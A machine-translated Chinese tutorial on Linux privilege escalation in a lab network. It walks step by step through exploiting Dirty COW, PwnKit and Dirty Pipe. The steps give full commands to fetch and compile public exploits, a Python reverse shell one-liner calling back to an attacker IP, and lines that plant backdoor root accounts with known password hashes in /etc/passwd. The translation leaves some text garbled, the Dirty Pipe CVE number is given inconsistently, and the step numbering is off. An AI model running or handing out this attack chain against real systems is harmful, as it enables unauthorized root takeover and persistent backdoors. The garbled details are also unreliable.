# Linux 权限提升:您应该知道的 Linux 内核/发行版漏洞。

> 原文：<https://infosecwriteups.com/linux-privilege-escalation-linux-kernel-distribution-exploits-you-should-now-about-1c46152d133d?source=collection_archive---------2----------------------->

这篇文章将向你展示如何扫描你的系统，寻找潜在的内核/发行版漏洞。

之后，我将向您展示几个您应该知道的著名的 linux 内核特权提升漏洞。

**免责声明** 本文仅用于信息和教育目的，并面向那些愿意并好奇了解安全性和渗透测试的人。内容不得用于非法目的。如果你准备好学习新的好东西，那么继续读下去。

**详情** 这些年来，很多内核漏洞都变得可用。然而，有几个工作在各种各样的发行版上。在本文中，我们将仔细研究与大多数 Linux 发行版重叠的三个漏洞。其中包括 Dirty Cow(内核版本 2.2 到 3.9)、pol kit(2009 年以来的所有 Linux 发行版，包括 pkexec)、Dirty Pipe(内核版本 5.8 到 5.10)。

您可以利用内核漏洞来执行权限提升。但是，只有在万不得已的情况下才这样做。内核漏洞可能表现得不可预测，并可能破坏目标系统的稳定。

使用特定 Linux 内核或发行版漏洞的能力取决于以下因素:
-现有内核版本
-发行版中存在的组件

另一个重要的方面是编译。如果可能，总是在目标系统上编译您的漏洞。如果没有可用的编译器，可以在攻击者的机器上编译该漏洞并将其复制到目标系统。

POC 由多台 Linux 机器(我们的受害者)和一台攻击者机器(Kali Linux 2022.3 版本)组成。

受害者 01(脏牛)
-元可移植(x86)
- IP 地址:192.168.62.162
-内核版本:2 . 6 . 24–16

受害者 02(pol kit)
-Ubuntu 16.04(x64)
-IP 地址:192.168.62.177
-内核版本:4 . 4 . 0–21-通用

受害者 03(脏管道)
- Kali Linux (x86)
- IP 地址:192.168.62.171
-内核版本:5.10–40

攻击者(用于反向外壳)
- Kali Linux
- IP 地址:192.168.62.161

初始立足点:
我们的初始立足点由一个标准(反向)外壳组成。被利用的用户没有 sudo 权限。

接下来的部分包括:
-步骤 1–5:Linux-exploit-suggest er . sh
-步骤 6–7:手动枚举
-步骤 8–20 脏牛(CVE 2016–5195)
-步骤 21–28:波尔基特(CVE-2021–4034)
-步骤 29–34:脏管道(CVE 2022–0867)
-学分

**枚举方式** 内核漏洞枚举可以手动完成，也可以自动完成。最好的脚本之一是“Linux-exploit-suggester . sh”(2022 年 9 月 16 日最新版本:2022 年 4 月 1 日)。我建议同时进行手动和自动枚举。

**Linux-exploit-suggest er . sh** 不幸的是，这个脚本无法在内核版本低于 4.0 的系统上运行。首先，我们需要修改脚本，以便它也能在旧系统上工作。

1.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

打开一个新的终端选项卡，并启动一个临时 HTTP web 服务器。我们将在整个开发过程中使用该服务器。

```
python3 -m http.server 80 --directory /tmp
```



2.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

下载 linux-exploit-suggester.sh

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O /tmp/linux-exploit-suggester.sh --no-verbose
```



3.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

调整漏洞，使其与旧系统兼容

```
nano /tmp/linux-exploit-suggester.sh
```

CTRL + W >搜索“版本 4.0”



原始代码:

> if((BASH _ versi info[0]< 4)); then

Adjusted code:

> if ((BASH_VERSINFO[0] < 1)); then



Save the adjusted script.
CTRL+O，CTRL+X

4.在 192.168.62.162 上执行(受害者机器，Metasploitable)。

使用 wget 从 Kali 机器下载脚本 linux-exploit-suggester.sh。

```
LHOST=192.168.62.161
LPORT=80
file=linux-exploit-suggester.sh
wget http://${LHOST}:${LPORT}/${file} -O /tmp/${file}; chmod 755 /tmp/${file}
```



可选:
如果 wget 在目标系统上不可用，您也可以使用 curl 或 python 来执行下载。

使用 curl 从 Kali 机器上下载脚本 linux-exploit-suggester.sh。

```
LHOST=192.168.62.161
LPORT=80
file=linux-exploit-suggester.sh
curl -s http://${LHOST}:${LPORT}/${file} -o /tmp/${file}; chmod 755 /tmp/${file}; ls -l /tmp/${file};
```



使用 python2 从 Kali 机器下载脚本 linux-exploit-suggester.sh。

```
LHOST=192.168.62.161
LPORT=80
file=linux-exploit-suggester.sh
python -c "import urllib2; u = urllib2.urlopen('http://${LHOST}:${LPORT}/${file}'); localFile = open('/tmp/${file}', 'w'); localFile.write(u.read()); localFile.close()"; chmod 755 /tmp/${file}; ls -l /tmp/${file};
```



我们的目标系统仅支持 python3，您可以使用 python3 请求模块下载 python3 漏洞。

```
LHOST=192.168.62.161
LPORT=80
file=linux-exploit-suggester.sh
python3 -c "import requests; url = 'http://${LHOST}:${LPORT}/${file}'; myfile = requests.get(url); open('/tmp/${file}', 'wb').write(myfile.content)"; chmod 755 /tmp/${file}
```

5.在 192.168.62.162 上执行(受害者机器，Metasploitable)。

执行 linux-exploit-suggester.sh

```
cd /tmp
./linux-exploit-suggester.sh
```



在 Metasploitable 上，我们有 79 个可能的内核漏洞。其中两个“可能”正在攻击目标。

**手动枚举**

不要仅仅依赖自动枚举脚本。如前所述，你受制于你的脚本的质量，所以我建议做一个手动检查。

6.执行于 192.168.62.177(受害者机器，Ubuntu 16.04)。

检查当前的架构、发行版和内核版本。

```
arch;
cat /etc/issue;
uname -r;
```



7.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

使用 searchsploit 工具查找可能的内核漏洞。

```
# update to the latest version
sudo apt update && sudo apt install exploitdb# search for kernel exploits on the target system
searchsploit linux kernel ubuntu 16.04
```



**Dirty COW(CVE 2016–5195)** Dirty COW(Dirty copy-on-write)是 Linux 内核漏洞，影响内核版本 2.2 到 3.9 的系统。菲尔·奥斯特(Phil Oester)在 2016 年发现了这个漏洞。

背景信息:[https://dirty cow . ninja .](https://dirtycow.ninja.)
易受攻击的内核版本:2.2–3.9

我们将使用 metasploitable(内核 2.4)机器来利用这个漏洞。我的建议是在目标机器上设置两个独立的反向 shells 来运行这个漏洞。这样，在攻击正在执行或攻击失败时，与目标机器的连接将保持不变。我们还将添加一个后门帐户，这样即使在漏洞被执行后，也可以保持根用户访问。

受害者 01 (Ditry Cow)
-元可移植(x86)
- IP 地址:192.168.62.162
-内核版本:2 . 6 . 24–16

8.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

下载恶意利用

```
file=dirty
wget [https://raw.githubusercontent.com/FireFart/dirtycow/master/${file}.c](https://raw.githubusercontent.com/FireFart/dirtycow/master/${file}.c) -O /tmp/${file}.c
```



9.可选项:在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

编译肮脏的利用(对卡利)。仅当漏洞无法在本地编译时才执行此步骤。

```
file=dirty
gcc -pthread -o /tmp/${file}_x64 /tmp/${file}.c -lcrypt
```



遗憾的是，无法在 Kali 上为 x86 系统编译此漏洞。但是你可以在 32 位的 Ubuntu 架构上编译它。

10.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

为第二个反向 shell 启动一个 netcat 监听器。

```
rlwrap nc -nlvp 443
```


11.在 192.168.62.162 上执行(受害者机器，Metasploitable)。

用我们的目标机器设置第二个反向外壳。我们将使用 python2 反向外壳。

```
vulnscript=/tmp/rev-shell.sh
LHOST=192.168.62.161
LPORT=443
echo """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"${LHOST}\",${LPORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'""" >$vulnscript
chmod 755 /tmp/rev-shell.sh
cd /tmp
./rev-shell.sh &
```



在我们的 Kali 机器上:



12.在 192.168.62.162 上执行(受害者机器，Metasploitable 第二个反向外壳)。

将第二个 shell 升级为交互式 Bash shell。

```
python -c "import pty; pty.spawn('/bin/bash')"
```



13.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

从 Kali 下载漏洞利用源代码

```
file=dirty
LHOST=192.168.62.161
LPORT=80
files="${file}.c ${file}_x64"
for file in $(echo $files); do wget http://${LHOST}:${LPORT}/${file} -O /tmp/${file}; chmod 755 /tmp/${file}; done
```



14.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

编译漏洞

```
cd /tmp
gcc -pthread dirty.c -o dirty -lcrypt
chmod 755 dirty
```



15.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

将原来的/etc/passwd 复制到/tmp

```
cp /etc/passwd /tmp
```



16.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

如果尚未升级，请将当前 shell 升级到交互式 shell。

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

执行攻击(总共需要大约 1-3 分钟)

```
cd /tmp
./dirty
```



出现密码问题时按 ENTER 键(空白密码)

等待大约 2/3 分钟，等待攻击完成。



该漏洞利用成功执行。我们可以切换到根用户“firefart”。

17.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

切换到用户 firefart(无密码)

```
su firefart
id
```



我们继续一些开发后的步骤来添加 2 个额外的根用户。

18.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

在原来的/etc/passwd (/tmp/passwd)中添加一个新的根用户 hacker1 (DES 密码“hacker”)和 hacker2 (MD5-crypt 密码“hacker”)

```
echo hacker1:UHRTHrsaEfHQ2:0:0:Hacker:/root:/bin/bash>>/tmp/passwdecho hacker2:\$1\$hacker\$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash>>/tmp/passwdchmod 644 /tmp/passwd
```



19.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

Restore /etc/passwd 并退出用户 firefart。

```
cp /tmp/passwd /etc/passwd
exit
```

20.在 192.168.62.162 上执行(受害者机器，Metasploitable 第二个反向外壳)。

现在切换到后门用户“黑客 1”或“黑客 2”(密码“黑客”)

```
su hacker1
```



黑客 1 是“root”

我们有一个根后门，无需再次利用漏洞！

**pol kit 的 PK exec(CVE-2021–4034)** CVE-2021–4034 不是内核漏洞，而是 SUID 根程序 PK exec(pol kit 的一部分)中的漏洞。

Qualys 的研究人员在 polkit 的 pkexec 中发现了一个内存损坏漏洞，pol kit 是一个默认安装在所有主要 Linux 发行版上的 SUID 根程序。通过在默认配置中利用此漏洞，此易受攻击的漏洞允许无权限用户获得易受攻击主机上的完全超级用户权限。

背景资料:[https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

内核:影响自 2009 年 5 月 pkexec 的第一个版本以来的所有版本

```
Victim 02 (Polkit)
- Ubuntu 16.04 (x64)
- IP-Address: 192.168.62.177
- Kernel version: 4.4.0–21-generic
```

21.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

下载 polkit 漏洞利用

```
cd /tmp
git clone [https://github.com/berdav/CVE-2021-4034.git](https://github.com/berdav/CVE-2021-4034.git)
```



22.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

从源代码创建焦油球

```
cd /tmp
tar -zcvf CVE-2021–4034-source.gz CVE-2021–4034
```



23.可选在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

编译 polkit 漏洞(在 Kali 上)。仅当漏洞无法在本地编译时才执行此步骤。

```
cd /tmp/CVE-2021–4034
make
```



24.可选在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

从 x64 编译的漏洞创建焦油球。

```
cd /tmp
tar -zcvf CVE-2021–4034.gz CVE-2021–4034
```



25.执行于 192.168.62.177(受害者机器，Ubuntu 16.04)。

从 Kali 下载两个焦油球。

```
file='CVE-2021-4034.gz CVE-2021-4034-source.gz'
LHOST=192.168.62.161
LPORT=80
files="${file}"
for file in $(echo $files); do wget --no-verbose http://${LHOST}:${LPORT}/${file} -O /tmp/${file}; chmod 755 /tmp/${file}; done
```



26.执行于 192.168.62.177(受害者机器，Ubuntu 16.04)。

提取源文件。

```
cd /tmp
tar -xzvf CVE-2021–4034-source.gz
```



27.执行于 192.168.62.177(受害者机器，Ubuntu 16.04)。

编译漏洞。

```
cd /tmp/CVE-2021–4034
make
```



28.执行于 192.168.62.177(受害者机器，Ubuntu 16.04)。

执行漏洞利用。

```
cd /tmp/CVE-2021–4034
./cve-2021–4034
```



我们有根权限！

**Dirty-Pipe(CVE-2022–0867)** CVE-2022–0847 是 5.8 到 5.10 之间的 Linux 内核中的一个漏洞，可以覆盖任意只读文件中的数据。这会导致权限提升，因为非特权进程可以将代码注入根进程。

背景资料:[https://sysdig.com/blog/cve-2022-0847-dirty-pipe-sysdig/](https://sysdig.com/blog/cve-2022-0847-dirty-pipe-sysdig/)

内核:5.8 到 5.10–108

受害者 03(脏管道)
- Kali Linux (x86)
- IP 地址:192.168.62.171
-内核版本:5.10–40

29.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

下载脏管道漏洞

```
file=exploit-1
wget https://raw.githubusercontent.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/main/${file}.c -O /tmp/${file}.c
```


30.可选项:在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

在 Kali (x86 和 x64 版本)上编译漏洞。仅当无法在目标上本地编译该漏洞时，才执行此步骤。

```
file=exploit-1
gcc -m32 -static -o /tmp/${file}_x86 /tmp/${file}.c
gcc -static -o /tmp/${file}_x64 /tmp/${file}.c
```



31.在 192.168.62.171 上执行(受害机器，Kali Linux 2022.1 x86)。

从 Kali 攻击者机器下载漏洞源代码和编译版本。

```
file=exploit-1
LHOST=192.168.62.161
LPORT=80
files="${file}.c  ${file}_x86 ${file}_x64"
for file in $(echo $files); do wget --no-verbose http://${LHOST}:${LPORT}/${file} -O /tmp/${file}; chmod 755 /tmp/${file}; done
```



23.在 192.168.62.171 上执行(受害机器，Kali Linux 2022.1 x86)。

编译漏洞。

```
file=exploit-1
gcc -o /tmp/${file} /tmp/${file}.c
```



33.在 192.168.62.171 上执行(受害机器，Kali Linux 2022.1 x86)。

执行漏洞利用。

```
file=exploit-1
/tmp/${file}
```


忽略错误消息。

注意:忽略错误“系统()函数调用…”。

34.在 192.168.62.171 上执行(受害机器，Kali Linux 2022.1 x86)。

使用密码“管道”切换到 root 用户

```
su root
```



我们是“根”用户！

我们是根！

**缓解** 缓解所有这些漏洞是为了让您的发行版拥有最新的安全补丁。

**归功于** 菲尔·奥斯特发现了“脏牛”漏洞。
Qualis 发现了“Polkit”漏洞。
cm4all 发现了“脏管道”漏洞。
感谢 MZet 维护 Linux-exploit-suggest er . sh(https://github.com/mzet-)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！